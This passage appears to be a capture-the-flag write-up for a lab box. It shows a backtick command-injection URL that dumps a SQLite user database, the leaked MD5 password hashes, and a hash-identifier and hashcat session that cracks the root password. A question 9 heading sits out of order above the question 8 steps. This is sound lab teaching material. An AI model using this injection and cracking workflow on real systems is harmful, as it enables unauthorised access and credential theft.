
7. What is the first user's password hash?

The user's password hash is stored in this Database to see it we use another command injection 

"http://10.10.19.14:8081/ping?ip=127.0.0.1`cat%20utech.db.sqlite`"
 
where `root`-->`f357a0c52799563c7c7b76c1e7543a32`
and   `admin`--->`0d0ea5111e3c1def594c1684e3b9be84`

Answer:f357a0c52799563c7c7b76c1e7543a32

8. What is the password associated with this hash?

now we should crack the hash, to identify what type of hash is it we are going to use hash-identifier:


9. What are the first 9 characters of the root user's private SSH key?
```
$ hash-identifier f357a0c52799563c7c7b76c1e7543a32     

   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

```
now we know that it's md5, next step is to crack it with hashcat:


```
$ hashcat -m 0 -a 0 f357a0c52799563c7c7b76c1e7543a32 /usr/share/wordlists/rockyou.txt

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

f357a0c52799563c7c7b76c1e7543a32:n100906                  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: f357a0c52799563c7c7b76c1e7543a32
Time.Started.....: Sat Jul  5 03:34:29 2025 (1 sec)
Time.Estimated...: Sat Jul  5 03:34:30 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 10960.7 kH/s (2.02ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5373952/14344385 (37.46%)
Rejected.........: 0/5373952 (0.00%)
Restore.Point....: 5242880/14344385 (36.55%)
```
